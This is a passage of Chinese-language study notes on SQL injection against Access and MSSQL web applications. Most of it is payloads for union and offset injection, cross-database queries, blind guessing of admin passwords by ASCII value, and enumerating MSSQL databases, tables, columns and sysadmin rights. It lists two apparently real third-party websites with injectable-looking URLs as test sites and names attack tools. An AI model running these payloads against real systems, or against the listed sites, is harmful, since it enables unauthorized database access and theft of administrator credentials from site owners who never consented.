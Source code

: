 ```
select * from 表 order by len
```  
联合查询  
```
union selsect 1,2......(len) from 表 选中列的数据类型不一致导致报错
```  
判断账户/密码长度  
```
and (select len(账户名/密码名) from admin)=len 
``` 
通过asc判断(注：并不是所有的数据库系统都支持SELECT TOP子句。MySQL支持LIMIT子句来选择有限数量的记录，而Oracle使用ROWNUM)  
```
and (select top 1 asc(mid(admin,1,1)) from admin)>100 admin列第一行第一个字的ascii(sqlmap原理）
```
测试站点：  www.jnqtly.cn/cp11.asp?id=1129
www.fc1885.com/display1_new.asp?id=237
工具：阿d,sqlmap,pangolin
### 3.5.2偏移注入(猜不到列名）
用*代替向前逐个删除，直到不报错为止  
删除的个数为一个周期  
```
union select ........ * from admin
union select ........ * from (admin as a inner join admin as b on a.id=b.id)
union select ........ * from ((admin as a inner join admin as b on a.id=b.id) inner join admin as c on a.id=c.id)
```  
### 3.5.3跨库查询
A,B站搭建在同一服务器，知道B的绝对路径，通过A来进行联合查询  
**mssql**  
数据库文件：mdf,日志文件：ldf。  
找数据库连接文件 一般在inc/conn.asp,dbconfig.asp,aspx(web.config)  
判断注入  
同access  
判断数据库版本  
```
and 1=(select @@version)  原理是类型不同导致报错 id=@@version
```  
判断当前数据库名称  
```
and 1=(select db_name)  id=db_name
```  
查看所有数据库  
```
and 1=(select name from master..sysdatabases for xml path)
```  
查看除系统数据库外的其他数据库  
```
and 1=(select top 1 name from master..sysdatabases where dbid>4) 
```  
获取表名  
```
and 1=(select top 1 name from sysobjects where xtype=’u’)
```   
获取列名  
```
and 1=(select top 1 name from syscolumns where id =(select id from sysobjects where name =’admin’) 
```  
查看值  
```
and 1=(select top 1 admin from admin) 
```  
基本信息收集  
权限判断  
```
and 1=(select is_srvrolemember(‘sysadmin’)) 
```  